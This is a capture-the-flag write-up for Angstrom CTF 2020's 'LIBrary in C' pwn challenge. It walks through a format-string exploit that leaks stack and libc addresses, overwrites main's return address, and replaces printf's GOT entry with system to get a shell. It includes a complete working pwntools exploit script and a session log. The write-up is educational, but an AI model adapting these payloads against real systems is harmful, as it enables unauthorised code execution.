

# LIBrary_in_C write-up

__ctf__: Angstrom CTF 2020

__category__: pwn

__points__: 120

## Task


We are given a `binary`, `source` and used `libc.so.6`.

## TLDR;

Format string vulnerability to leak `stack` and `libc` addresses. Overwrite return address to return to `main` for more input opportunities. Overwrite `printf` GOT with `system` and send `/bin/sh\x00` as next payload.

## Vulnerability

Since we are given source for the file, searching for vulnerability is fairly easy, we can see that we have two opportunities to use format string vulnerability in two vulnerable `printf` calls:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int main() {
	setvbuf(stdout, NULL, _IONBF, 0);

	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	char name[64];
	char book[64];

	puts("Welcome to the LIBrary in C!");
	puts("What is your name?");
	fgets(name, 64, stdin);
	// printf works just like System.out.print in Java right?
	printf("Why hello there ");
	printf(name);                                            <- here
	puts("And what book would you like to check out?");
	fgets(book, 64, stdin);
	printf("Your cart:\n - ");
	printf(book);                                            <- here
	puts("\nThat's great and all but uh...");
	puts("It turns out this library doesn't actually exist so you'll never get your book.");
	puts("Have a nice day!");
}
```

Running `rabin2` reveals that binary is 64bit, compiled with canaries, but that is not a concern, since with format strings we can cherry pick the addresses we want to write to. Also, the binary does not use position independent code, which discloses the GOT addresses for us.

```bash
root@kali:~/CTFs/Angstrom2020/pwn/library_in_c# rabin2 -I library_in_c
arch     x86
baddr    0x400000
binsz    6790
bintype  elf
bits     64
canary   true
class    ELF64
compiler GCC: (Ubuntu 7.4.0-1ubuntu1~18.04.1) 7.4.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    NONE
sanitiz  false
static   false
stripped false
subsys   linux
va       true
```

`printf` function determines the number of arguments by the format string argument (by the number of % sequences). It expects the following arguments to be stored on the stack even in the 64bit calling convention. Since our buffer used as the format string for this `printf` call is also stored on the stack, we can not only print the contents of the stack, but with `%n`, control the destination of our future writes.

## Exploit

### Argument find

In order to exploit this, we first need to find the order of argument, which we can use to refer to the start of our buffer. Since the executable is 64bit, it will take arguments as quad words from the stack. I wrote a simple script which uses `glibc`'s `i$` notation to refer to the `i`-th argument and print it as a hexadecimal quadword:

```python
from pwn import * 

for i in range(1,256):
    r = process('./library_in_c')
    r.sendline(f'AAAAAAAA %{i}$p')
    s = r.recv()
    print(f'{i} => {s}')
```


```bash
root@kali:~/CTFs/Angstrom2020/pwn/library_in_c# python3 discover.py | grep '0x4141'
8 => b'Welcome to the LIBrary in C!\nWhat is your name?\nWhy hello there AAAAAAAA 0x4141414141414141\nAnd what book would you like to check out?\n'
```
Then I slightly modified it for the second `printf` call.  

```bash
root@kali:~/CTFs/Angstrom2020/pwn/library_in_c# python3 discover.py | grep '0x4141'
16 => b"Your cart:\n - AAAAAAAA 0x4141414141414141\n\nThat's great and all but uh...\nIt turns out this library doesn't actually exist so you'll never get your book.\nHave a nice day!\n"

```

So now I know, that first quadword(8 bytes) of my buffer is stored as 8th(16th) argument for the first (second) `printf` call. Next 8 bytes are the 9th(17th) argument. We will use this when overwriting.

### stack and libc leak

In this part I will explain how I leaked the `libc` and `stack` addreses.

Our vulnerable `printf` calls are in `main` function. Main is initiated from `__libc_start_main` function, which is a part of `libc`. We will use the fact that the return adress for `main`, stored further on the stack, is address to `__libc_start_main`. This address is stored as 
27th argument for our `printf` call. I also wanted to leak some reliable `stack` address. After some debugging, I chose the address corresponding to 24th argument.

Thus my first payload that leaks addresses looks as follows:

```python
payload_leak = '%24$p %27$p'
```

This payload gets us two addresses that we need to further process to get the ones that we desire. To get the address of system in current process memory, we do the following.

```python
libc_address = libc_leak - 0xf0 - libc.symbols['__libc_start_main']
libc_system = libc_address + libc.symbols['system']
```

0xf0 is the offset in `__libc_start_main`. `libc_leak` is the address stored as return address for `main`

### ret2main

At the time I was exploiting this challenge, I didn't realise I can use one gadget and jmp straight to `libc` to `execve('/bin/sh')`. Thus, I wanted to return to main to give myself another round of format string inputs. To do this, I computed the address where the `main`'s return address is stored and with second `printf` call, I wrote `main`'s address. This way, after finishing `main`, we jump back to `main` again.

Obtaining the pointer to return address(at stack) for `main`, storing it as `ret_addr` was done using stack address leaked in previous step and subtracting constant from it (I don't know where was the leaked address meant to be pointing, but it was a constant offset from `ret_addr`, so I used it)

```python
payload_ret2main = b'%20$n%64s%21$hn%1799s%22$hn     '
payload_ret2main += p64(ret_addr + 4)
payload_ret2main += p64(ret_addr + 2)
payload_ret2main += p64(ret_addr)
```

Let's have a look at the payload closer:

```

writes 0x00000000 to ret_addr + 4
  |
  |  writes 0x0040 to ret_addr + 2
  |     |
  |     |         writes 0x0747 to ret_addr
  |     |           |
__|__ __|_____ _____|______  ___ <----- rest is padding
%20$n%64s%21$hn%1799s%22$hn     '

```
This causes ret_addr now contains `0x0000000000400747`, which is the address of `main`.


### GOT overwrite

In previous section I had to write known address to unknown place. This time it's going to be the other way around. We will be writing the leaked `libc_system` address to known `GOT` entry of `printf`. I decided to only overwrite the lower 3 bytes, since the higher bytes had to remain the same from `printf`. I first wrote the higher byte and then the remaining two as a word. 

```python
def write(what, where):
    what = what & 0xffffff
    hi_byte = what >> 16
    low_word = what & 0xffff

    log.info(f'printing {hi_byte} to {where +2} and {low_word} to {where}')

    payload = b'%12$'
    payload += str(hi_byte).encode()
    payload += b's%12$hhn'
    payload += b'%12$'
    payload += str(low_word -hi_byte).encode()
    payload += b's%13$hn'
    payload += (32-len(payload))*b' '
    payload += p64(where+2)
    payload += p64(where)
    return payload
```
After sending this payload to the first `printf` call, each of the following `printf` calls will actually call `system` instead of printf. We overwrote it's `GOT` entry.

### Putting it all together

How the final exploit is executed:
1. leak the addreses for future payloads
2. overwrite the return address to return to main
3. after returning to main, use additional `printf` call to overwrite `GOT`.
4. the next `printf` call will actually be a `system` call. But wait, the next '`printf` is again called with our input as it's only argument, so we can simply send `/bin/sh\x00` and `system('/bin/sh')` gets executed.

```bash
root@kali:~/CTFs/Angstrom2020/pwn/library_in_c# python3 xplt.py 
[*] '/root/CTFs/Angstrom2020/pwn/library_in_c/library_in_c'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/root/CTFs/Angstrom2020/pwn/library_in_c/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to shell.actf.co on port 20201: Done
[*] return address stored at 0x7ffea5436a18
[*] libc at 0x7f80bb20b000
[*] payload to ret2main b'%20$n%64s%21$hn%1799s%22$hn     \x1cjC\xa5\xfe\x7f\x00\x00\x1ajC\xa5\xfe\x7f\x00\x00\x18jC\xa5\xfe\x7f\x00\x00'
[*] returning to main
[*] printing 37 to 6295602 and 912 to 6295600
[*] sending overwrite payload b'%12$37s%12$hhn%12$875s%13$hn    2\x10`\x00\x00\x00\x00\x000\x10`\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
                                                                                               %\xbb\x80\x7f    2\x10And what book would you like to check out?
sh: 1: Your: not found
sh: 2: -: not found
$ ls
flag.txt
library_in_c
library_in_c.c
$ cat flag.txt
actf{us1ng_c_15_n3v3r_4_g00d_1d34}
```

## Exploit listing

```
from pwn import *

def write(what, where):
    what = what & 0xffffff
    hi_byte = what >> 16
    low_word = what & 0xffff

    log.info(f'printing {hi_byte} to {where +2} and {low_word} to {where}')

    payload = b'%12$'
    payload += str(hi_byte).encode()
    payload += b's%12$hhn'
    payload += b'%12$'
    payload += str(low_word -hi_byte).encode()
    payload += b's%13$hn'
    payload += (32-len(payload))*b' '
    payload += p64(where+2)
    payload += p64(where)
    return payload

def check_payload(payload):
    if b'\n' in payload:
        log.error('error, payload contains newline')

context.log_level = "info"

elf = ELF('./library_in_c')
libc = ELF('./libc.so.6')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
main = elf.symbols['main']

#r = process('./library_in_c')
r = remote('shell.actf.co', 20201)
#r = remote('localhost', 8080)

payload_leak = '%24$p %27$p'

r.sendline(payload_leak)
s = r.recvline()
s = r.recvline()
s = r.recvline()

stack_leak = int(s.split(b' ')[-2], 16)
ret_addr = stack_leak -216
libc_leak = int(s.split(b' ')[-1], 16)
libc_address = libc_leak - 0xf0 - libc.symbols['__libc_start_main']
libc_system = libc_address + libc.symbols['system']


log.info(f'return address stored at {hex(ret_addr)}')
log.info(f'libc at {hex(libc_address)}')

payload_ret2main = b'%20$n%64s%21$hn%1799s%22$hn     '
payload_ret2main += p64(ret_addr + 4)
payload_ret2main += p64(ret_addr + 2)
payload_ret2main += p64(ret_addr)

log.info(f'payload to ret2main {payload_ret2main}')
log.info('returning to main')

r.sendline(payload_ret2main)


s = r.recv()

payload_overwrite_got = write(libc_system, elf.symbols['got.printf'])
log.info(f'sending overwrite payload {payload_overwrite_got}')
r.sendline(payload_overwrite_got)
r.sendline(b'/bin/sh\x00')
r.recv()
r.interactive()
```
